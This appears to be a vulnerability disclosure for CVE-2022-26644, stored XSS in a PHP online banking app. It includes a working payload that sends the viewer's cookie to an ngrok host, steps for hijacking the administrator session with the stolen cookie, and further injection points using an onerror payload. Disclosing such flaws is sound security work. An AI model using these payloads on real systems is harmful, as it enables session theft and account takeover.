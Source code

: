 # Tittle: Online Banking System Stored XSS

# Author: (Erik451)

# Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

# Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)

# Version: OBS 1.0

# CVE: CVE-2022-26644
-  Description: A XSS issue in OBS v1.0 allows remote attackers to inject JavaScript in the description parameters. XSS to Privilege Escalation
- Client can craft a malicious payload, when the administrator goes to "account managment menu" the payload will be executed and the administrator cookies will be sent to the attacker server.

#### Steps to reproduce:
-   1- Go to [http://localhost/banking/client/?page=user](http://localhost/banking/client/?page=user)
	-   2- Edite your profile name and paste the payload
	- 3- Using a ngrok http server to get the request with the administrator cookie
	- 4- If the admin goes to the "manage accounts"  the payload will be execute

Payload used to steal the session Cookie: 
```js
<script>var i=new Image;i.src=`https://2c32-81-9-194-204.ngrok.io/?c=${document.cookie}`;</script>
```

![ngrokclient](https://user-images.githubusercontent.com/47476901/160634443-a0b5afaa-a2f0-404f-9bb2-a3437e534c6d.png)


**Admin Session**
The administrator goes to the manage accounts menu and will be execute the payload in background.
Now we have the admin cookie
![admincookie](https://user-images.githubusercontent.com/47476901/160634422-8cd4820c-447a-457e-8a66-7e3203fc6f27.png)


Edit our cookie with the new admin cookie, reload admin page and now we are administrators.
![loginasadmin](https://user-images.githubusercontent.com/47476901/160634399-08084a58-6c77-47b8-97c7-27c9fb274d8c.png)


---

#### Other XSS
Payload used: `<img src="x" onerror=prompt(1)>`
**Announcements Tittle**
-  1- Go to [http://web.com/admin/?page=announcements/manage_announcement](http://web.com/admin/?page=aannouncements/manage_announcement)
-  2- Create or edite an announcement and paste the payload
		
![XSSannouncement](https://user-images.githubusercontent.com/47476901/160634336-a3d0ff72-878b-4102-9eff-5759581f3695.png)
    
![XSSannouncement2](https://user-images.githubusercontent.com/47476901/160634352-303bc621-c09d-4993-86e0-316b183809ab.png)

**Accounts Name**
-  1- Go to [http://web.com/admin/?page=accounts/manage_account](http://web.com/admin/?page=accounts/manage_account)
-  2- Create or edite an accounts and paste the payload, client account will execute the payload on his session.

**System Info Name**	
 -  1- Go to [http://web.com/admin/?page=system_info](http://web.com/admin/?page=system_info)
 -  2- Edite the app/system info and paste the payload
 -  3-  This is the configuration of the app, all clients will see the tittle of the app so the javascript will be executed.
![XSSsysinfo](https://user-images.githubusercontent.com/47476901/160634484-659cfb45-6e0e-446a-be77-76296ee56383.png)

